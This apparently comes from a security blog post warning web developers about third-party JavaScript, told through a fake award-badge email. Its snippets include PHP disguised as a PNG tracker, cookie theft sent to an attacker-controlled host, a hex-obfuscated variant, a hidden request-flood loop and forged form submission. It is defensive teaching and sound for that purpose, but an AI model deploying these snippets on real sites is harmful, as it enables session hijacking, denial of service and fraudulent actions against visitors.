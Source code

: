 ```yaml
---
layout: post
title: 'The very bad things that Javascript can do: Part 2'
tags:
- html
- javascript
- security
---
```

In part 1, I discussed the various arguments I run into about wanting to be overly security conscious with our sites in regard to third party javascript. In this entry, we'll run through a few scenarios.

In our scenarios here, we're going to focus on a fake award site called “AwardSite” that gave our victim a winning notification. They are in the top 5% of 2013's best websites. The servers have PHP and are apache servers.

Perhaps they send an email like this:

    Hello and congratulations!  Your site, http://victimsite.com, has won the prestigious Best of 2013 award from AwardSite.com!  
     
    Did you know you made it into the top 5%?  We're impressed, and you should be proud!
     
    Below, you'll find a snippet of code to insert into the footer of your website.  It shows off your great accomplishment.
     
    Did you know AwardSite.com has a very high Search Engine Optimization ranking?  We're already linking to your website -
    but that doesn't complete the circle.  If you use the banner in the code below, you not only show off your reputation this year but that reciprocal link helps Google AND Bing rank your site even higher.
     
    Congratulations again!
     
    Fake Guy
    AwardSite.com

And of course, at the very end of the email is some HTML or Javascript that they are prompted to put into their site.

Now, for our example, we're going to use the following banner:

![](/uploads/2013/award.png)

Now, lets run through some scenarios.

### Hit Counter / Target Determination

In this case, the nefarious hacker wants to determine if this site has a lot of traffic. And, of that traffic, they want to determine what the demographics of the browsers are. This is a very easy information gathering attempt. This is what the code looks like:

```html
<a href="http://awardsite.com"><img src="http://awardsite.com/award.png?compress=134"></a>
```

Let's break down what the code means, and then show the back-end. First, it is just a link to the awardsite website. The image is the banner that you saw above. Finally, that image has a pretty non-conspicuous get parameter called ‘compress' which is set to the ID in the database of this particular victim site. It was important to use a word that SEEMED somewhat legitimate. Of course compress seems ok, so why would I judge that?

On the server, however, the file award.png is actually a PHP file. The apache server has configuration, perhaps in the .htaccess file, like this:

    <Files award.png>
        ForceType application/x-httpd-php
    </Files>

Then, the award.png file has the following PHP. (Please note, I've not went to the trouble to make sure this handles EVERY scenario... this is meant as a proof of concept).

Note: updateSite() is a function that writes an entry to the database using that siteID. I didn't think it was important enough to show that code too.

```php?start_inline=1
$siteID = isset ($_GET['compress']) ? $_GET['compress'] : null;
 
if ($siteID) {
    $header = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : '';
    updateSite($siteID, $header);
}
 
header('Content-type: image/png');
readfile('sourceawardfile.png');
```

This code basically gets the siteID from the GET query. It then grabs the user agent and inserts that into the database with the siteID. This works as a hit-counter and a demographics tracking. The backend will have to have some sort of analytic processing software to determine which browsers are visiting, etc.

No matter if there's a valid siteID or not, finally the png header gets sent and the real award file is sent to the browser.

In this case, our victim has allowed the “bad guy” to keep track of their visitors, times, and demographics. They can now determine if this is a high traffic site or not – and whether its worth targeting specifically with more sophisticated attacks.

### Cookie Stealing / Session Theft

PHP stores the session key as a cookie on the visitors browser named PHPSESSID by default. If the hacker had this cookie, and the session hadn't expired, they could act as the victim. The goal here is to have a logged in user of victim website visit the bad Javascript. Then, the cookie is sent to the hacker who then uses that to steal the session of the victim.

Here is the source code for the HTML/Javascript from the email:

```html
<a href="http://awardsite.com" id="awardlink">
    <script>
        var i = new Image();
        i.src = 'http://awardsite.com/award.png?c=' + document.cookie;
        document.getElementById('awardlink').appendChild(i);
    </script>
</a>
```

Here, a new image is created. Then, it is sent to the award.png PHP file. In this case, we grab the entire document.cookie. The cookie can then be parsed from the string of the GET parameter. Finally, the image is added to the file and no one is the wiser.

Of course, this kind of can look a bit bad if you see the words ‘document.cookie' – so we can obscure this a bit. Try this:

```javascript
var s = 'http://awardsite.com/award.png';
var i = new Image();
var _0xba4e=["\x63\x6F\x6F\x6B\x69\x65"];
var j=document[_0xba4e[0]];
i.src = concat(s,'?c=', j);
document.getElementById('awardlink').appendChild(i);
```    
        
Of course, it can look bad for our trained eyes... but for those who don't “work on computers” they'll just think its code they don't understand and use it.

**For future examples, I won't show how to obfuscate the code. But that would be one of the steps.**

### Denial of Service for Victim Site

What if we could make the visitor perform a denial of service? That wouldn't be that hard.

```html
<a href="http://awardsite.com" id="awardlink">
    <script>
        var s = 'http://awardsite.com/award.png';
        var i = new Image();
        document.getElementById('awardlink').appendChild(i);
        setTimeout(function() {
            for (var x = 0; x < 1000; x++) {
                var j = new Image();
                j.style = 'display: none';
                j.src = 'http://victimsite.com/someasset.php';
                document.body.appendChild(j);
            }
        }, 3000);
    </script>
</a>
```

In this case, the image is added successfully. However, the setTimeout() method executes a different function 3 seconds later. The delay is so that the user won't notice the delay in their browser (hopefully the entire site has loaded by then) – and it puts it in the background. Then, a new ‘image' is created 1000 times and appended to the document – with a hidden display (so the visitor can't tell). But, basically, one visitor to this site, especially if they spent some time just reading the content, loaded 1000 more requests than were necessary.

### Processing Actions as the Victim

We all know that we need to not have forms that submit with the method of GET if the action is something that adds/edits/updates information. This restricts me from creating a sample that uses the Image() object to load a fake form submission with GET parameters. However, it doesn't stop us from submitting a form that MAY be on the current page.

```html
<a href="http://awardsite.com" id="awardlink">
    <script>
        var s = 'award.png';
        var i = new Image();
        i.src = s;
        document.getElementById('awardlink').appendChild(i);
        var f = document.getElementById('formID');
        f[0].value = 'Some Nefarious Input';
        f.submit();
    </script>
</a>
```

This code goes and gets the form with an ID of ‘formID' and populates the first element with some bad information. Then it clicks submit.

This is bad, but there are some potential problems. What if... the form doesn't have an ID? Remember, we could also do some research, determine this is the second form on the page, and substitute the following:

```javascript
var f = document.forms[1];
```

OK, but lets just say its distracting to the visitor when the form is submitting. It takes them away from what they're doing – of course they're going to report it. Well, we can force the form to be ajax, and then submit.

```javascript
f.onsubmit = function() {
    //code to create xmlhttprequest and send form as ajax
};
f.submit();
```

### So what does all this mean?

Now that you've seen the examples of what can happen, I hope it turns on a light that we need to be more vigilant about what we allow clients to put into your hosted applications.
